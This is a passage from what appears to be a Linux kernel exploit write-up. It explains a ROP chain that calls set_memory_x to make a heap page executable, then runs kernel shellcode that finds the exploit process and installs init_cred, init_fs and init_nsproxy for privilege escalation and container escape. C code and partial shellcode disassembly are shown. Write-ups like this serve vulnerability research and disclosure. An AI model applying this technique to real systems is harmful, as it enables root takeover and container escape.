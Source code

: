- The kernel worker context has separated the task struct from the exploit process, so we can't install the credentials into the exploit process for privilege escalation using kernel function such as `commit_creds` function.
- We can't return the control flow to usermode naively since the task is not on syscall context. 
- The pid namespace of the kernel worker task is separated from the exploit process so we can't directly find our exploit process with kernel function such as `find_task_by_vpid` function.

### 7.6 ROP for Kernel shellcode

In this section, the exploit executes kernel shellcode, which performs privilege escalation and container escape, through ROP from previous steps.

As described earlier, our ROP payload is executed in a kernel worker context and it hinders direct approaches used for `lts-6.1.31` exploit. To deal with this, we use kernel shellcode for privilege escalation and container escape, instead of using kernel functions.

- [exploit/extra-refined/exploit.c#L1133](../exploit/extra-refined/exploit.c#L1133)
```c
uintptr_t *gadget_start = (uintptr_t *)(buf_ptr + 0xe8);
int idx = 0;
gadget_start[idx++] = curr_gadget->pop_rdi_ret_offset + kaslr_slide;
gadget_start[idx++] = nft_set_addr & ~0xfffUL;
gadget_start[idx++] = curr_gadget->pop_rsi_ret_offset + kaslr_slide;
gadget_start[idx++] = 1;
gadget_start[idx++] = curr_gadget->set_memory_x_offset + kaslr_slide;
gadget_start[idx++] = nft_set_addr + 0x18 + 0x20 * 8;
```
The ROP payload is constructed by the code above. To execute the kernel shellcode, The ROP sequences perform the followings.
- `set_memory_x(heap_addr & ~0xfffUL, 1)`
- Execute the kernel shellcode located below.

After the above ROP sequence is executed, the kernel page the current chunk is located is set to RWX permission, and the kernel shellcode that follows is now executable.

For privilege escalation and container escape, the kernel shellcode pinpoints the exploit process from the task list and installs core kernel structures such as `struct cred`, `struct nsproxy`, and `struct fs` into the corresponding task struct directly. To do this, the kernel shellcode performs the followings.
- Starting from `init_task`, iterate through the task list to find the task struct of the exploit process.
  - In the loop, the kernel shellcode identifies the exploit process by comparing the task's `comm` fields with `TARGET_COMM` value. This magic value for `comm` field is set for the exploit process in the [preparation step](#72-preparation-for-post-pc-control-and-barrier-objects).
- Install the following structures into the found task for privilege escalation and container escape.
  - `task->cred = &init_cred`
  - `task->real_cred = &init_cred`
  - `task->fs = &init_fs`
  - `task->nsproxy = &init_nsproxy`
- Sleep eternally with `msleep(0xffffffff)` loop.


- [exploit/extra-refined/exploit.c#L1142](../exploit/extra-refined/exploit.c#L1142)
```c
unsigned char *sc = &gadget_start[idx];
// kernel shellcode
    // iterate through task_struct list started with init_task
    // if the target comm matches with magic value,
    // install init_cred / init_nsproxy / init_fs into target task_struct
    // and loop msleep(0xffffffff)
    /*
    0:  4d 31 ff                xor    r15,r15
    3:  49 be 00 00 fe ca ef    movabs r14,0xdeadbeefcafe0000 ; init_task
    a:  be ad de
    d:  49 bd 01 00 fe ca ef    movabs r13,0xdeadbeefcafe0001 ; target_comm
    14: be ad de
```